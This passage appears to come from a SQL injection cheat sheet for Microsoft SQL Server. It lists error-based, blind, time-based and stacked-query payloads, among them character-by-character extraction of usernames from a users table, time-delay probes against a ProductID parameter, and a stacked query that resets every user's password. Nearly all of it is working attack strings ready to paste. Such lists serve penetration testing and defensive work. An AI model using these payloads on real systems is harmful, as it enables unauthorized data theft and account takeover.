 
## MSSQL Error based

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```


## MSSQL Blind based

```sql
AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -

AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'

AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90

SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```


## MSSQL Time based

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
```


## MSSQL Stacked Query

* Without any statement terminator
    ```sql
    -- multiple SELECT statements
    SELECT 'A'SELECT 'B'SELECT 'C'

    -- updating password with a stacked query
    SELECT id, username, password FROM users WHERE username = 'admin'exec('update[users]set[password]=''a''')--
